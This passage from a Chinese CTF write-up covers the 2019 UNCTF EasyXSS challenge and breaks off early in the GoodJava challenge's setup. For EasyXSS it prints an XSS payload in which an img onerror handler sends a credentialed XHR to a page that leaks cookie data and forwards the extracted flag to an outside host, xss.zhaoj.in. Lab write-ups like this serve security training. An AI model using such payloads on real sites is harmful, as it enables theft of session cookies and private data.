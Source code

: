 ![](https://ctfwp.wetolink.com/2019unctf/EasyXSS/1a6a4e7f373fd49d7ac9a800645b73fe.png)

![](https://ctfwp.wetolink.com/2019unctf/EasyXSS/bab186519709f76afc85cbd1e82b280d.png)

1.  题目题面里有说 flag 在 httponly 的 cookie
    里，那么就来查找一下有什么页面可以利用的。

>   F12 看一下每个页面发的 ajax 请求。

![](https://ctfwp.wetolink.com/2019unctf/EasyXSS/32bdd309fa0e45bfcb015c1a4f9177e1.png)

>   这个页面似乎可以利用，不带 id 参数打开，调试信息里有 Cookie 信息。

![](https://ctfwp.wetolink.com/2019unctf/EasyXSS/1a3660e864cd3d69bc4b35d2e685979b.png)

>   再来看看页面的 ACL 头，可以带着 Cookie 发 XHR 请求。

1.  然后就来构造一个 XHR 请求的 Payload 来利用这个页面拿 flag 吧。

```
<img src='/efefefe' onerror="xmlhttp=new
XMLHttpRequest();xmlhttp.withCredentials=true;xmlhttp.onreadystatechange=function(){if(xmlhttp.readyState==4){location.href='http://xss.zhaoj.in/?flag='
xmlhttp.responseText.match('flag\\{(.\*?)\\}')[1]}};xmlhttp.open('GET','/index.php/treehole/view?id=',true);xmlhttp.send('');"/\>
```

1.  打过去，flag 到手。

![](https://ctfwp.wetolink.com/2019unctf/EasyXSS/f00cc716dc47bc33963ef133e668d2ee.png)

![](https://ctfwp.wetolink.com/2019unctf/EasyXSS/d09d2571141a0c0f6ce0eb8debd68bf9.png)


### GoodJava
#### 前言
由于之前没怎么写过Java，此题可能有些bug，但对于拿flag影响不大，还请师傅们见谅

此题参考了最近的TMCTF，经过了改编 加大了难度

原题是用原生Servlet编写
此题改写成了Springboot，并且在第一步加了过滤，第二步考点直接换成了Java命令执行绕过（改动很大）

#### 解题过程

##### 前序步骤

题目会提供一个Jar包

用idea打开反编译后审计源码

找到Controller

![](https://ctfwp.wetolink.com/2019unctf/GoodJava/f632b2d3b620a2789cd736b3a3a83bc5.png)

###### 第一步
